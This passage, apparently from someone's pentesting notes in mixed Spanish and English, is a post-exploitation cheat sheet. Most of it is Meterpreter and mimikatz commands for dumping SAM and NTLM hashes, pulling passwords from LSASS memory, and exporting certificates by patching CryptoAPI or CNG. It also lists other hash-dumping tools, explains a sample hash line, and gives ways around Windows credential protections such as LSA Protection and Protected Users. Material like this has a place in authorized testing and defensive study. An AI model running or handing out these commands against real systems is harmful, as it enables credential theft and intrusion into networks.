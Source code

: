 Opcion 2) Use the mimikatz build-in on metasploit

>>meterpreter>>load mimikatz
>>meterpreter>>msv
>>meterpreter>>mimikatz_command -f samdump::hashes

>>mimikatz_command -f service::list

>>mimikatz_command -f sekurlsa::searchpasswords

>>mimikatz_command -f process::list

>>mimikatz_command -f sekurlsa::msv

>>mimikatz_command -f hash::lm

>>mimikatz_command -f hash::ntlm

>>mimikatz_command -f system::user

>>mimikatz_command -f system::computer

>>mimikatz_command -f samdump::hashes

>>mimikatz_command -f crypto::listStores CERT_SYSTE_STORE_CURRENT_USER       //lista contenedores de certificados
                                         CERT_SYSTEM_STORE_LOCAL_MACHINE
                                         CERT_SYSTEM_STORE_CURRENT_SERVICE
                                         CERT_SYSTEM_STORE_SERVICES
                                         CERT_SYSTEM_STORES_USERS
                                         CERT_SYSTEM_CURRENT_USER_GROUP_POLICY
                                         CERT_SYSTEM_LOCAL_MACHINE_GROUP_POLICY
                                         CERT_SYSTEM_STORE_LOCAL_MACHINE_ENTERPRISE
>>mimikatz_command -f crypto::listCertificates CERT_SYSTEM_STORE_LOCAL_MACHINE "Root"   //lista certificados de un contenedor
>>mimikatz_command -f crypto::exportCertificates CERT_SYSTEM_STORE_LOCAL_MACHINE "Root"  //exporta los certificados
Nota: en caso de que un certificado no permita ser exportado deberíamos parchear la CryptoAPI o el servicio de aislamiento
de claves CNG. >>crypto::patchapi   o   >>crypto::patchcng
>>mimikatz_command -f crypto::listProviders

Otras herramientas para Dump'ear hashes: Gsecdump.exe / Pwdump7 / Metasploit hashdump / 
      herramienta online para generar hashes: http://www.sinfocol.org/herramientas/hashes.php
                                              findmyhash (trabaja desde consola con servicios online)
mACHETE>> User3:1013:E7EED3F5C2C85B88AAD3B435B51404EE:6AA15B3D14492D3FA4AA7C5E9CDC0E6A:::
          - 1st field: username(Administrator, User1, etc.)
          - 2nd field: Relative Identification (RID):last 3-4 digits of the Security Identifier (SID) unique for each user
          - 3rd field : LM hash
	  - 4th field : NTLM hash

Nota: Desde WIN 8.1 & 2012R2 se aplica las siguientes medidas de ¿seguridad?
REF: https://technet.microsoft.com/library/dn344918.aspx#BKMK_CredentialsProtectionManagement
- Restricted admin mode for Remote Desktop Connection //Avoid user credentials to be sent to the server(and stolen)
-*Aun asi permite la autenticacion Pass-the-hash, pass-the-ticket & overpass-the-hash con CredSSP
- LSA Protection (Previene la inyeccion de codigo) //Deny memory access to LSASS process
-*Bypassed by a driver or another protected process (mimikatz has a Driver ;)
- Protected users Security group //no more (Mr Nice Guy) NTLM, WDigest, CredSSP, no delegation nor SSO, only Kerberos
-*Kerberos ticket can still be stolen and replayed (and smartcard/pin code is in memory;)
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
